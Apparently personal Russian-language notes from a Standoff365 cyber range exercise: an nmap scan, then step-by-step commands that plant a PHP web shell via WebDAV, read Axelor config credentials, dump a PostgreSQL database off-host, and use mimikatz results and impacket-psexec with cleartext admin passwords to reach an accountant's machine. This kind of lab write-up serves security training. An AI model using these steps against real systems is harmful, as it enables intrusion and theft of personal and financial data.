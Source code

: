 | smb2-time: 
|   date: 2024-10-24T12:24:07
|_  start_date: N/A
Nmap scan report for 10.154.12.202
Host is up (0.053s latency).
Not shown: 212 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
| ssh-hostkey: 
|   3072 e7:a7:68:5a:e0:55:db:96:7f:b9:aa:5e:30:72:bf:f8 (RSA)
|   256 1d:75:9d:23:c6:58:40:c1:7d:ec:0f:7b:ff:6f:66:34 (ECDSA)
|_  256 df:54:3c:65:6f:e8:f8:ce:e0:fd:17:87:89:c1:fd:85 (ED25519)
80/tcp open  http    nginx 1.25.3
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

### Утечка персональных данных сотрудников
Доступ к сайту http://10.154.12.195 через webdav.php (пароль в хеше [[Задачи Standoff365/HighTech/pass+log|pass+log]]) и обновление страницы авторизации

создаем web shell php http://10.154.12.195/rev.php и получаем доступ
находим файлы связанные с axelor 
```
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 
find / -name *axel* 2>/dev/null```
заходим в директорию /var/lib/tomcat9/webapps/axelor/
изучаем конфиги и получаем доступ к DB
```
cat /var/lib/tomcat9/webapps/axelor/WEB-INF/classes/axelor-config.properties

![[Pasted image 20241024220314.png]]

делаем дамп базы и скачиваем себе
pg_dump postgresql://axelor:32-well-ARMS-angry-21@10.154.12.195:5432/axelordb -F p -f tmp/axelor.dump

ищем  таблицу с  столбцом export_code где лежит флаг f29221c8-e870-4c17-92a5-e83f55dc3a12 

### Утечка финансовых документов
на машине j_miles получаем возможно запуска mimikatz с правами админа (?????????)
```
 В МОЕМ СЛУЧАЕ НАШЕЛ ГОТОВЫЕ РЕЗУЛЬТАТЫ
```
Получаем пароль ws админа в открытом виде [[Задачи Standoff365/HighTech/pass+log|pass+log]]
затем запускаем  /usr/bin/impacket-psexec hte/a_petinson_admin:uDp0KD5Siu0tXAdg@10.154.13.46 для удаленного доступа к машине бухгалтера (j_salazar) в которой хранятся финансовые документы 
читаем файл и получаем флаг 6864e20a-c261-4b07-9a67-8998795b7cd2 
